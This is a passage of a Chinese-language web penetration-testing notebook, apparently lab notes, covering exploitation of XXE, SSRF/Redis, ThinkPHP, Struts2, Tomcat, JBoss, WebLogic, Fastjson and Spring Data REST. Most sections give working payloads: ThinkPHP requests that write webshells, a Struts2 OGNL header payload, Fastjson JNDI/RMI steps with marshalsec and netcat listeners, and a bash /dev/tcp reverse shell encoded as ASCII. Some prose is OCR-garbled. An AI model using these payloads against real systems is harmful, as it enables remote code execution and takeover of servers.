User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.100.40:56758
Referer: http://192.168.100.40:56758/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<!DOCTYPE root [
  <!ENTITY % test SYSTEM "http://192.168.71.29:8000/Desktop/eval.dtd">
  %test;
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
]>
<user><username>&xxe;</username><password>admin</password></user>
```

> 无回显的XXE

> ssrf获取正常文件

```php
//2.php
<?php
function curl($url){
    $ch=curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch,CURLOPT_HEADER,0);
    curl_exec($ch);
    curl_close($ch);
}
$url=$_GET['url'];
curl($url);
?>
```


> Redis未授权访问


- 确保以上两个虚拟机`同时开启`
- 使用端口扫描工具扫描ip并访问


- 查看是否能够`成功`访问到`redis`服务器

- ```http
  http://192.168.234.170/ssrf3.php?url=http://192.168.234.100
  ```

  


- 利用`dict协议`测试服务器是否开放了`redis`服务

- ```http
  http://192.168.234.170/ssrf3.php?url=dict://192.168.234.100:6379
  ```

  


- 这里我使用`物理机`进行监听


- 监听端口

- ```cmd
  nc -lvp 7777
  ```

  


- `成功监听`,并且获取权限,查看端口号


------

# 中间件漏洞

### ThinkPhp漏洞

> ThinkPhp`5.0.20`远程代码执行漏洞

- 漏洞`产生`:由于没有正确处理控制器名,导致网站没有开启强制路由的情况(即默认情况下)可以执行任意方法,从而导致`远程命令执行漏洞`
- 影响`版本`:`5.0.x < ThinkPhp 5.1.x < 5.1.31`


#### ThinkPhp`5.0.20`远程代码执行

- 报错查看`版本信息`

.

- 构造`payload`

- ```php
  ?s=/Index//think/app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
  ```



- 执行`系统命令`-->`whoami`

- ```php
  ?s=index/think/app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
  ```

  

- 写入`webshell`

- ```php
  ?s=/index//think/app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell5.php&vars[1][]=<?php @assert($_REQUEST['cmd']);echo "success";?>
  ```

  

- 使用`工具检测`


------

> ThinkPhp`6.0.12`文件包含漏洞

- 漏洞`产生`:当ThinkPhp开启了`多语言功能`时,攻击者可以通过`lang`参数和`目录穿越`实现`文件包含`,当存在其它扩展模块如`pear`扩展时,攻击者可进一步利用文件包含实现远程代码执行
- `限制`:该漏洞最大的限制点就是被包含文件的`后缀`一定是`php`,要包含一个php文件,利用的方式就少了,但我们可以利用`pearcmd`
- 影响`版本`:`6.0.1 < ThinkPhp < 6.0.13`

#### ThinkPhp`6.0.12`文件包含

- 写`webshell`

- ```php
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval$_REQUEST['cmd']);?+/tmp/cmd.php
  ```

  

- 写`文件`-->shell.php

- ```php
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&<?=phpinfo()?>+/tmp/shell.php
  ```

  

- 写`文件`-->shell123.php

- ```php
  ?lang=../../../../../../../../../tmp/shell123
  ```


- 写`webshell`

- ```
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=eval($_REQUEST['cmd']);?>+/tmp/cmd.php
  ```


- 包含文件`连接shell`

- ```
  ?lang=../../../../../../../../../tmp/cmd&cmd=phpinfo();
  ```


- 连接`shell`


------

### Laravel漏洞

- 漏洞`原理`:当Laravel开启`Debug`模式时,由于其自带的`Ignition`组件对`flie_get_contents()`和`flie_put_contents()`函数的不安全使用,攻击者可以通过发送恶意请求,构造恶意log文件等方式触发`Phar`反序列化,最终造成`远程代码执行`

- 影响`版本`:Laravel < 8.4.2

- Laravel是一个由Taylor Otwell所创建，免费的开源 PHP Web 框架。在开发模式下，Laravel使用了lgnition提供的错
  误页面，在lgnition 2.5.1及之前的版本中，有类似这样的代码:

  ```php
  $contents = file get contents($parameters['viewFile',); file put contents($parameters['viewfile”, $contents);
  ```

  攻击者可以通过phar://协议来执行反序列化操作，进而执行任意代码。

  



------

### Struts2漏洞

- 漏洞`产生`:在使用基于`jakarta`插件的文件上传功能时,有可能存在`远程命令执行`用户可在上传文件时通过修改`http请求头`中的`Content-Type`值来触发该漏洞,执行系统命令
- 影响`版本`:`2.5 - 2.5.10` `2.3.5 - 2.3.31`

> 漏洞复现

```php
Content-Type:"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"boundary=----WebKitFormBoundaryXx80aU0pu6vrsV3z
```


### 判断strus2框架

- 常规办法:
  - 1、通过页面回显的错误消息来判断，页面不回显错误息时则无效。
  - 2、通过网页后缀来判断，如`.do.action`，有可能不准。
    3、判断` /struts/webconsole.html `是否存在来进行判淤需要 devMode 为 true。
- 其它的方法
  - 通过 actionErrors。要求是对应的 Action 需要继承自actionsupport 类。
  - 利用方法:如原始 URL为 https://threathunter.org/则检测所用的 URL为 https://threathunter.org/?actionErrors=1111
    uts2 构建的。异常包括但不限于以下几种现象如果返回的页面出现异常，则可以认定为目标是基于 St
    - 1、页面直接出现 404 或者 500 等错误。
    - 2、页面上输出了与业务有关错误消息，或者1111被回显到了页面上。
    - 3、贡面的内容结构发生了明显的改变。
    - 4、页面发生了重定向。

------


### Shiro漏洞

> Shiro550漏洞复现

- `Apache Shiro`框架提供了记住密码的功能(RememberMe)，用户登录成功后会生成经过加密并编码的cookie。在服务端对`rememberMe`的`cookie`值，先base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞。
  那么，Payload产生的过程:
  命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie值
  在整个漏洞利用过程中，比较重要的是`AES加密`的密钥，如果没有修改默认的密钥那么就很容易就知道密钥了.
- 影响`版本`:`Apache Shiro` < `1.2.4`
- 特征:返回包中会包含`rememberMe=deleteMe`字段,这种情况大多会发生在登录处，返回包里包含remeberMe=deleteMe字段，
  这个是在返回包中(Response),如果返回的数据包中没有remeberMe=deleteMe字段的话，可以在数据包中的Cookie中添加
  remeberMe=deleteMe字段这样也会在返回包中有这个字段


> Shiro721漏洞复现

- 在Shiro721漏洞中，由于Apache Shiro cookie中通过 AES-128-CBC 模式加密的rememberMe字段存在问题，用户可通
  过Padding Oracle Attack来构造恶意的rememberMe字段，并重新请求网站，进行反序列化攻击，最终导致任意代码执行
  虽然使用Padding Oracle Attack可以绕过密钥直接构造攻击密文，但是在进行攻击之前我们需要获取一个合法用户的
  Cookie.
- 漏洞流程
  登录网站获取合法Cookie
  使用rememberMe字段进行Padding Oracle Attack，获取intermediary
  利用intermediary构造出恶意的反序列化密文作为Cookie
  使用新的Cookie请求网站执行攻击
  影响版本
- Apache Shiro <= `1.4.1`
  特征判断
  响应包中包含字段remember=deleteMe字段


> Shiro721 和 Shiro550 的差异?
> Shiro721和Shiro550一样，都是生成恶意RememberMe Cookie反序列化执行代码，不同之处是RememberMe cookie的生成方式。
> shiro550 序列化利用需要知道AES加密的key，使用这个key直接构造Payload。
> Shiro721 序列化是利用已登录用户的合法RememberMe Cookie值，通过服务器对填充密钥的不同响应，从而判断加密值
> 是否被正确填充，构造Payload。

------

### Tomcat漏洞

#### tomcat任意文件写入漏洞*

> Tomcat任意文件写入

- Tomcat任意文件写入漏洞

- CVE-2017-12615

- 漏洞`产生`:当 Tomcat 启用了 HTTP PUT 请求方法(将 readonly 初始化参数由默认值设置为 false)，攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

- 漏洞`危害`:可以通过PUT方法写webshel，从而控制服务器,

- 漏洞`检测`:通过访问:Http://localhost:8080，抓包后发起PUT请求，根据响应包为201即可确定存在该漏洞。

- `复现`:

  ```cmd
  直接利用PUT方法写webshel
  
  Webshell内容利用工具生成
  Tomcat默认不允许写isp文件后缀
  此处根据不同系统特性绕过
  Linux: jsp/
  Windows: jsp%20和jsp::$DATA
  ```

  ------

#### Tomcat远程部署漏洞

> Tomcat远程部署漏洞

- 漏洞`产生`:这是JSP/PHP网站远程部署的一个工具，管理员只需要远程上传一个WAR格式的文件，便可以发布到网站，方便了于发人员部署代码的同时，也方便了攻击者上传木马。
- 漏洞`危害`:攻击者可以通过构造war进行上传木马文件，从而控制服务器
- 漏洞检测:通过访问:ttp://localhost:8080/manager 管理地址，
  尝试`弱口令`或默认口令，若能登陆成功，则存在此漏洞。
- 漏洞`复现`过程:通过弱密码登录管理界面` tomcat/tomcat`


- 使用`弱口令`进入后台,上传`war包`(准备一个shell,将其压缩成.rar,改后缀为`.war`)

  


------


#### Tomcat任意文件读取漏洞*

> Tomcat任意文件读取

- CVE-2020-1938
- 漏洞`产生`:由于Tomcat在处理AJP请求时,未对请求做任何验证导致产生任意文件读取漏洞。
- CVE-2020-1938 又名GhostCat，由于Tomcat AJPt议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可件，例如可以读取 webapp 配置文件或源代码读取或包含 Tomcat 上所有 webapp 目录下的任意文信息。
- 漏洞`危害`:可以通过tomcat AJP协议读取文件，查看服务器敏感
- 漏洞`检测`:幽灵猫漏洞。通过工具扫描开放8009端口即存在CVE-2020-1938l

```php
python2 CVE-2020-1938.py 192.168.100.40 -p 13894 -f /WEB-INF/web.xml
```

------

### JBOS漏洞

> JBoss 5.x/6.x 反序列化漏洞

- 漏洞`编码`:CVE-2017-12149

- 漏洞描述:利用漏洞可在未经任何身份验证的服务器主机上执行任意代码，

- 漏洞`分析`:该漏洞为 Java反序列化错误类型，存在于 Jboss 的 Httplnvoker 组件中的 ReadOnlyAccessFilter 过滤器该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

- 漏洞复现:使用账号密码`admin vulhub`登录后台





------

### WebLogic

#### weblogic10 cve-2017漏洞复现

> weblogic10 cve-2017漏洞复现

- 端口`7001`




------

#### weblogic 远程部署漏洞

> 远程部署漏洞复现

- 默认账号密码`weblogic Oracle@123`




#### weblogic-cve-2023-21839*

> weblogic-cve-2023-21839

------

# fastjson反序列化漏洞

> 漏洞背景

- 漏洞`原理`:Fastjson 在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。fastjson 默认使用 @type 指定反序列化任意类，攻击者可以通过在 java 常见环境中寻找能够构造恶意类的方法，通过反序列化的过程中调用的 getter/setter 方法，以及目标成员变量的注入来达到传参的目的，最终形成恶意调用链。

- 利用`流程`

  1.首先开启HTTP服务器，并将恶意类放在目录下
  2.开启恶意RMI服务器
  3.攻击者控制url参数为上一步开启的恶意RMI服务器地址
  4.恶意RMI服务器返回ReferenceWrapper类
  5.目标 (JNDI Client)在执行lookup操作的时候，在decodeObject中将ReferenceWrapper变成Reference
  类，然后远程加载并实例化我们的Factory类(即远程加载我们HTTP服务器上的恶意类)，在实例化时触发静
  态代码片段中的恶意代码

### 环境搭建

- 安装JDK1.8[[下载地址](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)]

```sh
mkdir -p /usr/local/java
cp jdk-8u251-linux-x64.tar.gz  /usr/local/java
tar -zxvf jdk-8u251-linux-x64.tar.gz
```

- 配置环境变量

```sh
vim /etc/profile

# 进入环境变量
JAVA_HOME=/usr/local/java/jdk1.8.0_251 
PATH=$PATH:$HOME/bin:$JAVA_HOME/bin
export JAVA_HOME
export PATH

# 通知Java目录
update-alternatives --install "/usr/bin/java" "java" "/usr/local/java/jdk1.8.0_251/bin/java" 1
update-alternatives --install "/usr/bin/javac" "javac" "/usr/local/java/jdk1.8.0_251/bin/javac" 1
update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_251/bin/javaws" 1
update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.8.0_251/bin/javaws" 1
```

- 切换Java版本

```sh
update-alternatives --config java
```

------

- 利用`marshalsec`编译开启`RMI`服务
- 利用marshalsec编译并开启RMI服务:
  1. git clone https://github.com/mbechler/marshalsec.git 下载项目文件
  2. apt-get install maven 安装maven项目管理工具
  3. cd marshalsec 切换至marshalsec目录
  4. mvn clean package -DskipTests 使用maven项目管理工具打包文件

### 目录结构



### 编辑`恶意类`代码


```php
//使用javac编译成.class
javac fastjsonshell.java
```


```cmd
//在当前目录开启web服务
python3 -m http.server 9090
```


```cmd
//利用marshalsec项目启动RMI服务器,监听9999端口
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.136.219:9090#fastjsonshell" 9999
```



```cmd
//监听 8888 端口
nc -lvvp 8888
```

### BP抓包发送POST数据

```http
POST / HTTP/1.1
Host: 192.168.41.54:8090
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/json
Content-Length: 0

{
 		"b":{
			"@type":"com.sun.rowset.JdbcRowSetImpl",
			"dataSourceName":"rmi://192.168.41.219:9999/fastjsonshell",
			"autoCommit":true
	}
}
```




------

# Spring Data Rest远程命令执行命令

> 漏洞背景

- 介绍:Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码。
- 影响`版本`
  Spring Data REST versions < 2.5.12,2.6.7, 3.0 RC3
  Spring Boot version < 2.0.0M4
  Spring Data release trains < Kay-RC3

```python
//使用python交互式命令行将 执行命令转化成为 ascii
",".join(map(str, (map(ord,"bash -i>&/dev/tcp/192.168.41.219/8888 0>&1"))))

'98,97,115,104,32,45,105,62,38,47,100,101,118,47,116,99,112,47,49,57,50,46,49,54,56,46,52,49,46,50,49,57,47,56,56,56,56,32,48,62,38,49'
```


------


------



------



------

- 发现不对劲以后对`http://192.168.41.54:8080/customers/1`抓包
- 修改为`PATCH`请求


------

- `Base64`编码 



- `Ascii`编码


- 去掉多于的部分

```ascii
98,97,115,104,32,45,99,32,123,101,99,104,111,44,89,109,70,122,97,67,65,116,97,83,65,43,74,105,65,118,90,71,86,50,76,51,82,106,99,67,56,120,79,84,73,117,77,84,89,52,76,106,81,120,76,106,73,120,79,83,56,52,79,68,103,52,73,68,65,43,74,106,69,61,125,124,123,98,97,115,101,54,52,44,45,100,125,124,123,98,97,115,104,44,45,105,125
```

```php
PATCH /customers/1 HTTP/1.1
Host: 192.168.41.54:8080
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
If-None-Match: "0"
If-Modified-Since: Sun, 22 Sep 2024 08:41:10 GMT
Connection: keep-alive
Content-Type: application/json-patch+json
Content-Length: 458

